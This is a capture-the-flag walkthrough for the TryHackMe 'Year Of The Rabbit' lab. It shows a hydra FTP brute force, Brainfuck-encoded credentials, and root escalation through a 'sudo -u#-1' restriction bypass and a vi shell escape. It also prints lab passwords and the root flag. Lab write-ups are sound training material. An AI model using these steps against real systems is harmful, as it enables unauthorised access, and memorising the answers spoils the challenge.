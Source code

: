 ```yaml
---
title: 'Year Of The Rabbit'
description: 'Web enumeration, FTP brute force with custom password list, decoding a Brainfuck script and privilege escalation with non root sudo permission on vi'
pubDate: 2021-08-18
category: 'tryhackme'
tags: []
image: 'https://tryhackme-images.s3.amazonaws.com/room-icons/c062ef0e0b4f70e51a2dafc5fc2bca0e.jpeg'
---
```


## ENUM

In `10.10.174.148/assets/style.css` we find a comment:
```css
/* Nice to see someone checking the stylesheets.
     Take a look at the page: /sup3r_s3cr3t_fl4g.php
  */
```

Following this path goes to:
```
Location: intermediary.php?hidden_directory=/WExYY2Cv-qU
```

Going to `/WExYY2Cv-qU` gives us a dir listing:
```
[PARENTDIR]	Parent Directory	 	-
[IMG]	Hot_Babe.png	2020-01-23 00:34 	464K
```

`strings` on the PNG shows:
```
Eh, you've earned this. Username for FTP is ftpuser
One of these is the password:
Mou+56n%QK8sr
1618B0AUshw1M
A56IpIl%1s02u
vTFbDzX9&Nmu?
FfF~sfu^UQZmT
8FF?iKO27b~V0
ua4W~2-@y7dE$
3j39aMQQ7xFXT
Wb4--CTc4ww*-
u6oY9?nHv84D&
0iBp4W69Gr_Yf
TS*%miyPsGV54
C77O3FIy0c0sd
O14xEhgg0Hxz1
5dpv#Pr$wqH7F
1G8Ucoce1+gS5
0plnI%f0~Jw71
0kLoLzfhqq8u&
kS9pn5yiFGj6d
zeff4#!b5Ib_n
rNT4E4SHDGBkl
KKH5zy23+S0@B
3r6PHtM4NzJjE
gm0!!EC1A0I2?
HPHr!j00RaDEi
7N+J9BYSp4uaY
PYKt-ebvtmWoC
3TN%cD_E6zm*s
eo?@c!ly3&=0Z
nR8&FXz$ZPelN
eE4Mu53UkKHx#
86?004F9!o49d
SNGY0JjA5@0EE
trm64++JZ7R6E
3zJuGL~8KmiK^
CR-ItthsH%9du
yP9kft386bB8G
A-*eE3L@!4W5o
GoM^$82l&GA5D
1t$4$g$I+V_BH
0XxpTd90Vt8OL
j0CN?Z#8Bp69_
G#h~9@5E5QA5l
DRWNM7auXF7@j
Fw!if_=kk7Oqz
92d5r$uyw!vaE
c-AA7a2u!W2*?
zy8z3kBi#2e36
J5%2Hn+7I6QLt
gL$2fmgnq8vI*
Etb?i?Kj4R=QM
7CabD7kwY7=ri
4uaIRX~-cY6K4
kY1oxscv4EB2d
k32?3^x1ex7#o
ep4IPQ_=ku@V8
tQxFJ909rd1y2
5L6kpPR5E2Msn
65NX66Wv~oFP2
LRAQ@zcBphn!1
V4bt3*58Z32Xe
ki^t!+uqB?DyI
5iez1wGXKfPKQ
nJ90XzX&AnF5v
7EiMd5!r%=18c
wYyx6Eq-T^9#@
yT2o$2exo~UdW
ZuI-8!JyI6iRS
PTKM6RsLWZ1&^
3O$oC~%XUlRO@
KW3fjzWpUGHSW
nTzl5f=9eS&*W
WS9x0ZF=x1%8z
Sr4*E4NT5fOhS
hLR3xQV*gHYuC
4P3QgF5kflszS
NIZ2D%d58*v@R
0rJ7p%6Axm05K
94rU30Zx45z5c
Vi^Qf+u%0*q_S
1Fvdp&bNl3#&l
zLH%Ot0Bw&c%9
```

```bash
hydra -l ftpuser -P passwords.txt ftp://10.10.174.148

...[snip]...
[21][ftp] host: 10.10.174.148   login: ftpuser   password: 5iez1wGXKfPKQ
...[snip]...
```

## FTP

From the FTP:
```
get "Eli's_Creds.txt"
```

This contains a `Brainfuck` script:
```
+++++ ++++[ ->+++ +++++ +<]>+ +++.< +++++ [->++ +++<] >++++ +.<++ +[->-
--<]> ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> ----- --<]> ----- --.<+
++++[ ->--- --<]> -.<++ +++++ +[->+ +++++ ++<]> +++++ .++++ +++.- --.<+
+++++ +++[- >---- ----- <]>-- ----- ----. ---.< +++++ +++[- >++++ ++++<
]>+++ +++.< ++++[ ->+++ +<]>+ .<+++ +[->+ +++<] >++.. ++++. ----- ---.+
++.<+ ++[-> ---<] >---- -.<++ ++++[ ->--- ---<] >---- --.<+ ++++[ ->---
--<]> -.<++ ++++[ ->+++ +++<] >.<++ +[->+ ++<]> +++++ +.<++ +++[- >++++
+<]>+ +++.< +++++ +[->- ----- <]>-- ----- -.<++ ++++[ ->+++ +++<] >+.<+
++++[ ->--- --<]> ---.< +++++ [->-- ---<] >---. <++++ ++++[ ->+++ +++++
<]>++ ++++. <++++ +++[- >---- ---<] >---- -.+++ +.<++ +++++ [->++ +++++
<]>+. <+++[ ->--- <]>-- ---.- ----. <
```

Decoding the `Brainfuck` creds:
```
User: eli
Password: DSpDiM1wAEwid
```

## SSH

```bash
ssh eli@10.10.174.148 # <- DSpDiM1wAEwid
```

When loggin in:
```
"Gwendoline, I am not happy with you. Check our leet s3cr3t hiding place. I've left you a hidden message there"
```

```bash
eli@year-of-the-rabbit:~$ find / -name "s3cr3t" 2>/dev/null
/usr/games/s3cr3t
```

## Gwendoline

```bash
eli@year-of-the-rabbit:/usr/games/s3cr3t$ cat .th1s_m3ss4ag3_15_f0r_gw3nd0l1n3_0nly\!
Your password is awful, Gwendoline.
It should be at least 60 characters long! Not just MniVCQVhQHUNI
Honestly!

Yours sincerely
   -Root
```

Now we can `su` or ssh as Gwendoline:
```bash
ssh gwendoline@10.10.174.148 # <- MniVCQVhQHUNI
```

## ROOT

Gwendoline can execute vi as root:

```bash
gwendoline@year-of-the-rabbit:~$ sudo -l
...[snip]...
User gwendoline may run the following commands on year-of-the-rabbit:
    (ALL, !root) NOPASSWD: /usr/bin/vi /home/gwendoline/user.txt
```

Since we can't execute it as the root user we need to bypass this check:

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

In vi:
```
:!/bin/sh
```
```bash
cat /root/root.txt
THM{8d6f163a87a1c80de27a4fd61aef0f3a0ecf9161}
```
